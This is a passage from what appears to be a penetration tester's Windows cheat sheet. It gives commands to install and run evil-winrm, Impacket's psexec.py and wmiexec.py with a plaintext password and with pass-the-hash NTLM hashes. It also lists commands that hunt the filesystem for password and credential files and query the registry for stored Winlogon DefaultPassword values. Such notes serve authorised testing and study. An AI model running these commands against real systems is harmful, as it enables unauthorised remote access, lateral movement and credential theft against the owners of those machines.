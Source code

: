 #### Remote Admin

##### runas

```
PS > runas /netonly /user:snovvcrash powershell
```

##### evil-winrm.rb

* [github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)
* [malicious.link/post/2020/run-as-system-using-evil-winrm/](https://malicious.link/post/2020/run-as-system-using-evil-winrm/)

Install:

```
$ git clone https://github.com/Hackplayers/evil-winrm ~/tools/evil-winrm
$ cd ~/tools/evil-winrm && bundle install && cd -
$ ln -s ~/tools/evil-winrm/evil-winrm.rb /usr/local/bin/evil-winrm.rb
```

Run:

```
$ evil-winrm.rb -u snovvcrash -p 'Passw0rd!' -i 127.0.0.1 -s `pwd` -e `pwd`
```

##### psexec.py

```
root@kali:$ psexec.py snovvcrash:'Passw0rd!'@127.0.0.1
root@kali:$ psexec.py -hashes :6bb872d8a9aee9fd6ed2265c8b486490 snovvcrash@127.0.0.1
```

* [github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py)

##### wmiexec.py

```
root@kali:$ wmiexec.py snovvcrash:'Passw0rd!'@127.0.0.1
root@kali:$ wmiexec.py -hashes :6bb872d8a9aee9fd6ed2265c8b486490 snovvcrash@127.0.0.1
```

* [github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py)


#### Registry & Filesystem

```
PS > cmd /c dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
PS > cmd /c where /R C:\ *.ini
PS > reg query HKLM /f "password" /t REG_SZ /s
PS > reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" | findstr /i "DefaultUserName DefaultDomainName DefaultPassword AltDefaultUserName AltDefaultDomainName AltDefaultPassword LastUsedUsername"
Or
PS > Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" | select DefaultPassword
PS > reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings" | findstr /i proxy
```

